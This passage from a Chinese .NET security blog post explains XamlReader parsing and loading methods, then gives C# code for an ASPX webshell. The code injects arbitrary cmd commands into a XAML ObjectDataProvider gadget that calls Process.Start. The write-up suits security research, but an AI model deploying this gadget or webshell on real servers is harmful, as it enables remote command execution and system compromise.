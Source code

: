 ```xml
```

```C#
string xml = File.ReadAllText("../../Dictionary2.xaml");
XamlReader.Parse(xml);
```

上述代码运行后跟踪调用栈，发现调用了多个Load方法，注意到调用了WpfXamlLoader类的Load方法，发现是一个内部实现的类，不能直接在外部所用，只能通过XamlReader.Loader方法去实现调用

![](https://img1.dotnet9.com/2022/05/5908.png)

### XamlReader.LoadAsync

XamlReader类提供了3种Load重载，另外还提供了LoadAsync异步方法，用于在大文件数据传输不影响程序主线程，可直接载入流转换为对象

```C#
//Test:Load
string xml = File.ReadAllText("../../Dictionary2.xaml");
MemoryStream ms = new MemoryStream(System.Text.Encoding.Default.GetBytes(xml));
XamlReader.Load(ms);

//Test:LoadAsync
MemoryStream ms0 = new MemoryStream(System.Text.Encoding.Default.GetBytes(xml));
XamlReader xamlReader = new XamlReader();
xamlReader.LoadAsync(ms0);
```

![](https://img1.dotnet9.com/2022/05/5909.png)

## 0x06 WebShell

为了增强程序的可操作性，笔者改用aspx页面编写风险检查智能助手，同时设计了主机进程、主机信息采集、主机目录文件访问等功能，内部采用Base64编码和解码的解析方式运行，这样的好处在于对URL特殊字符串的处置，启动`Process`类调用`cmd.exe/c winver.ex`e 执行命令，核心代码和页面用户体验界面如下程序

```C#
public static void CodeInject(string input)
{
    string ExecCode = EncodeBase64("utf-8", input);
    StringBuilder strXMAL = new StringBuilder("<ResourceDictionary ");
    strXMAL.Append("xmlns=\"http://schemas.microsoft.com/winfx/2006/xaml/presentation\" ");
    strXMAL.Append("xmlns:x=\"http://schemas.microsoft.com/winfx/2006/xaml\" ");
    strXMAL.Append("xmlns:b=\"clr-namespace:System;assembly=mscorlib\" ");
    strXMAL.Append("xmlns:pro =\"clr-namespace:System.Diagnostics;assembly=System\">");
    strXMAL.Append("<ObjectDataProvider x:Key=\"obj\" ObjectType=\"{x:Type pro:Process}\" MethodName=\"Start\">");
    strXMAL.Append("<ObjectDataProvider.MethodParameters>");
    strXMAL.Append("<b:String>cmd</b:String>");
    strXMAL.Append("<b:String>/c "+ DecodeBase64("utf-8",ExecCode) +"</b:String>");
    strXMAL.Append("</ObjectDataProvider.MethodParameters>");
    strXMAL.Append("</ObjectDataProvider>");
    strXMAL.Append("</ResourceDictionary>");
    XamlReader.Parse(strXMAL.ToString());
}
```

![](https://img1.dotnet9.com/2022/05/5910.png)

## 0x07 结语

有关XamlReader类多个命令执行的方法希望未来不会被恶意滥用，好啦本文就介绍到此，文章涉及的PDF和Demo已打包发布在星球，欢迎对.NET安全关注和关心的同学加入我们，在这里能遇到有情有义的小伙伴，大家聚在一起做一件有意义的事。